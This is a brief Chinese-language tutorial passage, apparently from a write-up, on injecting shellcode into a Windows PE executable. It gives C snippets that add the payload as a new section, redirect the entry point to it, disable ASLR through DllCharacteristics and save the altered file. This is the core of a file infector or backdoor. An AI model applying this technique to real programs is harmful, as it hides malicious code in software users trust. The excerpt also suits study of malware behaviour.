 payload 包括两部分

- prefix，prefix 的流程：
  - 跳转到 shellcode
  - 跳转到旧 Entry Point
- shellcode，prefix 后面跟着 shellcode

### 插入新节

构建好 payload 之后，将 payload 作为新节插入 PE 文件中。

```c
	// insert shellcode to a new section
	printf("insert new section...\n");
	insertNewCodeSection(&pefile, payload, sizeof prefix + shellcodeSize);
```

### 修改 PE 入口点

插入新节后，修改函数入口点为新节 RVA。

```c
	// change Entry Point to newly inserted section
	pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint = newEntryPoint;
	printf("change Adress of Entry Point to %x\n", newEntryPoint);
```

### 修改 DLL Characteristic

关闭 DLL 地址随机化。

```c
	pefile.pimageNTHeaders->OptionalHeader.DllCharacteristics = 0x8100;
```

### 保存 PE 文件

```c
	// save PE file
	PESave(&pefile, argv[1]);
```

